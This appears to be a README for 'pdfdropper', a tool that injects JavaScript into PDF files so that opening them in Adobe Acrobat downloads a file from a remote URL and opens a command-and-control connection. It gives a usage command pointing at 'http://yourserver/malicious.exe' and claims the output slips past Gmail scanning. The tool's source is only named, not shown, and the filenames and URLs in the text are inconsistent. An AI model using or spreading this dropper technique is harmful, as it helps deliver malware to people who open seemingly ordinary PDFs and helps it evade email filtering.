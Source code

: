 # pdfdropper
https://cti.monster/blog/2024/07/25/pdfdropper.html    
https://github.com/0x6rss/pdfdropper

## Introduction
PDF files are often considered static documents by most people. However, 
the PDF standard allows for the execution of JavaScript code within the document. 
This feature offers various attack vectors that can be used for Red Team tests and 
cybersecurity research. In this article, we will examine how to inject JavaScript 
into a PDF file to download a file from a specific URL and establish a Command and 
Control (C2) connection using this method.

## Adding JavaScript to PDF Files
JavaScript can be used for various purposes within PDF files. However, the 
capabilities of JavaScript in PDF files are more limited compared to JavaScript 
in HTML and web pages. Browsers and PDF viewers restrict the access area of 
JavaScript within PDFs for security reasons. Nevertheless, we can perform certain 
operations within these limitations.

## Creating a PDF Dropper
To add malicious code to a PDF file and download a file from a specific URL, we can 
follow these steps:  

### Step 1: Install Required Python Libraries
First, we need to install the required Python libraries. The fpdf2 library is what 
we will use to create and manipulate PDF files.
```
pip install fpdf2
```

### Step 2: Adding JavaScript Code to the PDF
The following Python code allows you to add JavaScript to a PDF file to download a file from a specific URL.
```
adobecodeinject.py  
main.py
```

### Creating and Testing the PDF File
You can create the PDF file with this command:
```
python main.py -f original.pdf -o exploit.pdf -downloadUrl http://yourserver/malicious.exe
```
When you open the exploited.pdf file in Adobe Acrobat, it should download the file from http://localhost/test.exe when the PDF is opened. This method is particularly effective with Adobe Acrobat software.  
This method will make Gmail even scan the file as a regular PDF.